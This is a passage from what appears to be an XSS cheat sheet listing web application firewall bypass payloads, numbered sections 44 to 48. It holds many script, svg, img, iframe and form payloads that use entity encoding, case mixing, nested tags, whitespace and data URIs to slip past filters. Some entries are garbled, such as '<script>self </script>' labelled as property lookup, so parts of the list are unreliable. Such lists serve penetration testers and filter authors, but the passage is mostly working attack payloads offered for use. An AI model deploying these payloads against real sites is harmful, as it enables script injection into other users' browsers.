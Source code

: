 ```html
<scr%0ipt>alert(1)</scr%0ipt>
<script>al\ert(1)</script>  // Bypassing simplistic "alert" filter
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

### **44. WAF Bypass Techniques with Modified Syntax**
These techniques leverage different ways to write payloads that may not match a WAF's strict rules.

```html
<script>alert`1`</script>  // Using backticks instead of parentheses
<script>alert&#40;1&#41;</script>  // HTML entity encoding
<script src=data:text/javascript,alert(1)></script>  // Data URI usage
<script>self </script>  // Using property lookup
<script>this </script>  // Concatenation in function name
<svg/onload="top ">  // Obfuscation through numbers
```

### **45. HTML Entity and Mixed Encoding Techniques**
Using HTML entities and mixed character encoding to slip past WAF rules.

```html
<scr<script>ipt>alert(String.fromCharCode(88,83,83))</scr<script>ipt>
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
<svg/onload=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;>
<script>alert('\x58\x53\x53')</script>  // Hexadecimal encoding
<iframe src="javascript&colon;alert&lpar;1&rpar;"></iframe>  // Colon and parentheses HTML encoding
```

### **46. Bypassing Common HTML Attribute Restrictions**
Using unconventional characters, malformed attributes, and malformed tags.

```html
<img sRc=X oNERror=alert(1)>  // Capital letters to bypass case-sensitive filters
<img src=1 href=1 onerror='javascript:/*--></script><script>alert(1)//'>
<sVg><scRiPt>alert(1)</sCriPt></svG>  // SVG combined with scripting to confuse filters
<form><button formaction="javascript:alert(1)">Click Me</button></form>  // Button with formaction
<video><source onerror="alert(1)"></video>
```

### **47. Random Whitespaces and Newline Characters**
Adding arbitrary spaces, newlines, or invisible characters to bypass WAF pattern matching.

```html
<scr  ipt>alert(1)</scr  ipt>
<script
>alert('XSS')</script>
<svg onload="aler
t(1)">
<IMG SRC=javascript: alert('XSS')>  // Whitespace between "javascript:" and "alert"
<input value="``onmouseover='alert(1)'">
```

### **48. In-line JavaScript Comments to Break Patterns**
Using in-line comments to disrupt typical WAF signatures.
